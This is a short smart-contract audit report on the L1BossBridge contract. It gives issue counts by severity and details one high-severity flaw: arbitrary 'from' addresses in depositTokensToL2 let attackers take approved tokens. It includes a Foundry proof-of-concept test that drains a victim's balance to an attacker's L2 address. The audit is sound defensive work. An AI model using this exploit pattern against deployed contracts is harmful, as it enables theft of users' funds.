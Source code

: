# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 8                      |
| Medium   | 1                      |
| Low      | 3                      |
| Info     | 1                      |
| Gas      | 0                      |
| Total    | 13                     |

# Findings

## High 

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assest stolen

The `depositTokensToL2` function allows anyone to call it with a `from` address of any account that has approved tokens to the bridge.

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2 (setting an attacker-controlled address in the `l2Recipient` parameter).

As a PoC, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanMoveApprovedTokensOfOtherUsers() public {
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);

    uint256 depositAmount = token.balanceOf(user);
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attackerInL2, depositAmount);
    tokenBridge.depositTokensToL2(user, attackerInL2, depositAmount);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), depositAmount);
    vm.stopPrank();
}
```
